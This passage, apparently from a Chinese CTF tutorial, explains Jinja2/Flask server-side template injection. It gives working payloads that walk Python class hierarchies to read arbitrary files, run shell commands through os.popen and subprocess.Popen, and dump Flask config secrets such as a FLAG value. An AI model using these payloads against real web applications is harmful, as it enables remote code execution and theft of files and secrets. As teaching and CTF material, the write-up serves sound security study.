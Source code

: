 ![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfP3o9TibDf1JBXWRqr32SuHeSPLLmNqC3HGQR15vCCCGVCNXP3gsGWwrreHWF7hDvgvpV1ee2Xncw/640?wx_fmt=png)

  

读取文件 payload

```
{% for c in ().__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```

然后这里再提一个比较少人提到的点

`warnings.catch_warnings`类在在内部定义了`_module=sys.modules['warnings']`，然后`warnings`模块包含有`__builtins__`，也就是说如果可以找到`warnings.catch_warnings`类，则可以不使用`globals`，payload 如下

```
{{''.__class__.__mro__[1].__subclasses__()[40]()._module.__builtins__['__import__']("os").popen('whoami').read()}}
```

总而言之，原理都是先找到含有`__builtins__`的类，然后再进一步利用

*   `subprocess.Popen`进行 RCE
    

我们可以用`find2.py`寻找`subprocess.Popen`这个类，可以直接 RCE，payload 如下

```
{{''.__class__.__mro__[2].__subclasses__()[258]('whoami',shell=True,stdout=-1).communicate()[0].strip()}}
```

*   直接利用`os`
    

一开始我以为这种方法只能用于 python2，因为我在本地实验的时候 python3 中无法找到直接含有 os 的类，但后来发现 python3 其实也是能够用的，主要是环境里面有这个那个类才行

我们把上面的`find.py`脚本中的 search 变量赋值为 os，去寻找含有 os 的类

```
λ python find.py
(<class 'site._Printer'>, 69)
(<class 'site.Quitter'>, 74)
```

后面如法炮制，payload 如下

```
{{().__class__.__base__.__subclasses__()[69].__init__.__globals__['os'].popen('whoami').read()}}
```

### 获取配置信息

我们有时候可以使用 flask 的内置函数比如说`url_for`，`get_flashed_messages`，甚至是内置的对象`request`来查询配置信息或者是构造 payload

*   `config`
    

我们通常会用`{{config}}`查询配置信息，如果题目有设置类似`app.config ['FLAG'] = os.environ.pop('FLAG')`，就可以直接访问`{{config['FLAG']}}`或者`{{config.FLAG}}`获得 flag

*   `request`
    